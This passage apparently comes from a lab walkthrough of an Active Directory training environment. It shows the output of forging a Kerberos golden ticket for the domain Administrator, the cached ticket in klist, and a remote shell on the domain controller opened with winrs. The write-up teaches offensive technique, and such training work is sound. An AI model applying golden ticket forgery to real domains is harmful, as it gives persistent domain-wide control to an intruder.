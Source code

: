 ```
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local'🏛️

[*] AuthTime       : 2/13/2025 1:39:41 AM
[*] StartTime      : 2/13/2025 1:39:41 AM
[*] EndTime        : 2/13/2025 11:39:41 AM
[*] RenewTill      : 2/20/2025 1:39:41 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/13/2025 1:39:41 (local)
        End Time:   2/13/2025 11:39:41 (local)
        Renew Time: 2/20/2025 1:39:41 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
🚩

Once the ticket is injected, we can access resources in the domain.

3. **Use the golden ticket to (once again) get domain admin privileges from a machine**

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes

============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
```